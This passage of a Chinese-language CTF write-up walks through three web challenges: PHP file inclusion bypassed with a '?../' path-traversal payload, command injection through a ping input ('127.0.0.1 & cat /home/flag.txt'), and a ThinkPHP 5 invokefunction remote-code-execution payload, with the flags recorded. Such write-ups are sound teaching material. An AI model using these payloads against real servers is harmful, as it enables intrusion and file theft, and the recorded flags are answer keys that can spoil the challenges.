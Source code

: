    ```php
               echo "you can't see it";
               return false;
           }
       }

       if (! empty($_REQUEST['file'])
           && is_string($_REQUEST['file'])
           && emmm::checkFile($_REQUEST['file'])
       ) {
           include $_REQUEST['file'];
           exit;
       } else {
           echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
       }  
   ?>
   ```
3. get传参file=hint.php,得到包含flag的文件名：ffffllllaaaagggg
4. 观察其中的过滤，关键在于其中的mb_substr函数，这个函数的总体作用是返回问号之前的代码，如果我们输入xxx？xxx，不管问号后的内容是什么，只要问号之前的内容在白名单，就可以通过检测，构造payload：

   file=source.php?../../../../../ffffllllaaaagggg

   关于include，他为什么能包含source.php?../../../../../ffffllllaaaagggg这个奇怪的路径，php官方文档给出解释

   如果定义了路径——不管是绝对路径（在 Windows   下以盘符或者 *\* 开头，在 Unix/Linux   下以 */* 开头）还是当前目录的相对路径（以   *.* 或者 *..* 开头）——[include_path](mk:@MSITStore:E:\php5.6中文手册\php5.6中文手册\php_manual_zh_notreview.chm::/res/ini.core.html#ini.include-path "include_path") 都会被完全忽略。例如一个文件以   *../* 开头，则解析器会在当前目录的父目录下寻找该文件。

   打开pikachu目录遍历测试，随便输，发现以下两种都可以：

   /asdasdasdas/asdaadsjigassd/../../../../../index.php
   /asdaadsjigassd/../../../../index.php

flag{25e7bce6005c4e0c983fb97297ac6e5a}

### command_execution

1. 是个ping命令，构造：
   127.0.0.1 & ls /home
2. 发现flag.txt：
   127.0.0.1 & cat /home/flag.txt

cyberpeace{28a49c66ddd437efd0c45cdd9c0f5a73}

### php_rce

1. 靶场由thinkphp5搭建，直接搜，payload：

   s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /
2. 有flag文件

   s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag

flag{thinkphp5_rce}

### Web_php_include
